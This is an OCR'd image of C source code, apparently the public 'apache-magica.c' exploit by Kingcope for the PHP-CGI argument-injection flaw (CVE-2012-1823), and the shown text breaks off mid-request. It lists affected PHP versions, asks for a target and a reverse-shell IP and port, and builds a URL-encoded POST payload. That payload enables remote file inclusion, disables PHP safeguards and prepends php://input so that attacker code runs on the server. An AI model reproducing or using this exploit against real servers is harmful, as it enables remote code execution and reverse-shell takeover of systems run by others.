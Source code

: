 > PHP 5.2.11
> PHP 5.2.6-3
> PHP 5.2.6+lenny16 with Suhosin-Patch
> Affected versions
> PHP prior to 5.3.12
> PHP prior to 5.4.2
> Unaffected versions
> PHP 4 - getopt parser unexploitable
> PHP 5.3.12 and up
> PHP 5.4.2 and up
> Unaffected versions are patched by CVE-2012-1823.
> */
> /*    .
>      /'\rrq rk
>  .  // \\  .
> .x.//fco\\-|-
>  '//cmtco\\zt
>  //6meqrg.\\tq
> //_________\\'
> EJPGQO
> apache-magica.c by Kingcope
> */
> 
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> #include <getopt.h>
> #include <sys/types.h>
> #include <stddef.h>
> #include <openssl/rand.h>
> #include <openssl/ssl.h>
> #include <openssl/err.h>
> #include <netdb.h>
> #include <sys/socket.h>
> #include <netinet/in.h>
> 
> typedef struct {
>     int sockfd;
>     SSL *handle;
>     SSL_CTX *ctx;
> } connection;
> 
> void usage(char *argv[])
> {
>   printf("usage: %s <--target target> <--port port> <--protocol http|https> "   
>   "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
>    argv[0]);
>   exit(1);
> }
> 
> char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"   
>  "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"   
>  "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"   
>  "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"   
>  "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"   
>  "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"   
>  "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"   
>  "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"   
>  "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"   
>  "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"   
>  "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"   
>  "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"   
>  "Host: %s\r\n"   
>  "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"   